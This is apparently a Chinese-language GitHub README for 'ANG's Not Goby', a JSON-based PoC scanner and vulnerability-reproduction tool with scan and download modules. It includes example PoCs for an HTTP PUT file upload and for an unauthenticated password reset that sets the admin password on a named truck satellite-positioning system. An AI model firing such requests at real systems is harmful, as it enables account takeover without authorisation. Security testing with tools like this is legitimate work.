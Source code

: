 ## ANG's Not Goby!



## 史上POC最简洁的漏洞复现工具（狗头保命）

独自开发的一款poc扫描、漏洞复现的工具，后续会去兼容goby以及其他工具的poc，**并且加入浏览器爬虫以及被动扫描功能，将来会陆续开发GUI版和BurpSuite插件版，目前处于测试版本**，这款工具的poc编写可能算是比较简洁明了的工具了，可执行文件报错就使用ang.py或者test.py，由于近期工作较忙，其他功能后续会开发

先看效果（可以用来批量挖SRC）
<img src="img\12.png">

<img src="img\0.png">

使用的是JSON格式的POC，放在poc目录下面即可，代理可以用BurpSuite的代理，内容基本上是请求包内容，没有额外的东西，比较纯净

以下是模板poc，注意：在工具存放目录下创建一个目录，名为为poc，所有json格式poc都存放在该目录下

```
{
	#	漏洞名称
    "name": "",
    #	请求模式（目前支持get post put，但是还没验证过get，只用了post和put）
    "method": "",
    #	poc编写时间（不重要）
    "time": "",
    #	GET请求路径
    "path": "",
    #	可以设置梯子或者其他代理，默认使用burpsuite代理
    "proxies": {
            "http": "http://127.0.0.1:8080",
            "https": "http://127.0.0.1:8080"
        },
     #	无需多言，请求头
    "headers": {
    },
    #	post以及put请求的data
    "data": "",
    #	用于检查是否存在漏洞
    "check": {
    	#	状态码
        "code":"200",
        #	返回包值的个数，不需要全写上，和下面的value个数对应上就ok
        "value_num": "0",
        #	返回包内容，例如true、200
        "value1":""
    }
}
```



```json
{
    "name": "PUT上传",
    "method": "PUT",
    "time": "2025/03/11",
    "path": "/test.txt",
    "proxies": {
            "http": "http://127.0.0.1:8080",
            "https": "http://127.0.0.1:8080"
        },
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36",
        "X-Requested-With": "XMLHttpRequest",
        "Accept-Encoding": "gzip, deflate, br",
        "Content-Length": "4",
        "Connection": "keep-alive"
    },
    "data": "test",
    "check": {
        "code":"200",
        "value_num": "0",
        "value1":""
    }
}
```

```json
{
    "name": "卡车卫星定位系统create存在未授权密码重置漏洞",
    "method": "POST",
    "time": "2025/03/07",
    "path": "/user/create",
    "proxies": {
            "http": "http://127.0.0.1:8080",
            "https": "http://127.0.0.1:8080"
        },
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36",
        "fieldContent-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Accept": "application/json, text/javascript, */*; q=0.01",
        "X-Requested-With": "XMLHttpRequest",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9",
        "Connection": "close"
    },
    "data": {
        "account": "admin",
        "id": "1",
        "password": "test123456",
        "passwordRepeat": "test123456",
        "groupName": "111",
        "roleid": "5",
        "validend": "",
        "phone": "",
        "email": "",
        "chncount": "36",
        "flowType": "1",
        "oldFlowType": "",
        "flowVal": "",
        "flowAlarmVal": "",
        "oldFlowAlarmVal": "",
        "logContent": "111",
        "guid": "222",
        "token": "xxx"
    },
    "check": {
        "code":"200",
        "value_num": "1",
        "value1":"true"
    }
}
```

以下是基础的使用方法，os功能还在开发ing

<img src="img/1.png">

### scan 模块，-U是批量扫描，指定一个TXT文件

<img src="img\2.png">

-u 是指定一个目标进行扫描

<img src="img\3.png">

### download 模块

用于下载文件（目前支持http/https代理）

<img src="img/4.png">

用于下载文件，可以配合其他脚本爬取资源

<img src="img/5.png">

